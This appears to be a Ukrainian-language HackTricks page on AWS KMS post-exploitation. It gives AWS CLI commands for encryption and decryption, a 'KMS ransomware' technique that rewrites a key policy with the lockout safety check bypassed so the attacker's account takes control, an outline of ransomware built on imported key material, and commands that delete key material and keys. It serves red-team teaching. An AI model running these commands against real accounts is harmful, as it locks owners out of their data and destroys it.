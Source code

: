 # AWS - KMS Постексплуатація

{% hint style="success" %}
Вивчайте та практикуйте AWS Хакінг:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Хакінг: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}

## KMS

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### Шифрування/Дешифрування інформації

{% hint style="success" %}
Зверніть увагу, що якщо ви хочете дешифрувати деякі дані всередині файлу, файл повинен містити бінарні дані, а не дані, закодовані в base64.
{% endhint %}

* Використовуючи **симетричний** ключ
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* Використання **асиметричного** ключа:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

Атакуючий з привілейованим доступом до KMS може змінити політику KMS ключів і **надати своєму обліковому запису доступ до них**, видаливши доступ, наданий легітимному обліковому запису.

Тоді користувачі легітимного облікового запису не зможуть отримати доступ до будь-якої інформації будь-якої служби, яка була зашифрована цими ключами, створюючи простий, але ефективний програмний вірус для облікового запису.

{% hint style="warning" %}
Зверніть увагу, що **керовані AWS ключі не підлягають** цій атаці, лише **керовані клієнтом ключі**.

Також зверніть увагу на необхідність використання параметра **`--bypass-policy-lockout-safety-check`** (відсутність цієї опції в веб-консолі робить цю атаку можливою лише з CLI).
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
Зверніть увагу, що якщо ви зміните цю політику і надасте доступ лише зовнішньому обліковому запису, а потім з цього зовнішнього облікового запису спробуєте встановити нову політику, щоб **повернути доступ до оригінального облікового запису, ви не зможете**.
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Загальний KMS Ransomware

#### Глобальний KMS Ransomware

Існує інший спосіб виконати глобальний KMS Ransomware, який включатиме наступні кроки:

* Створити новий **ключ з матеріалом ключа**, імпортованим зловмисником
* **Зашифрувати старі дані** знову, зашифровані попередньою версією, новим.
* **Видалити KMS ключ**
* Тепер лише зловмисник, який має оригінальний матеріал ключа, зможе розшифрувати зашифровані дані

### Знищити ключі
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
Зверніть увагу, що AWS тепер **запобігає виконанню попередніх дій з іншого облікового запису:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Вивчайте та практикуйте AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Вивчайте та практикуйте GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримати HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
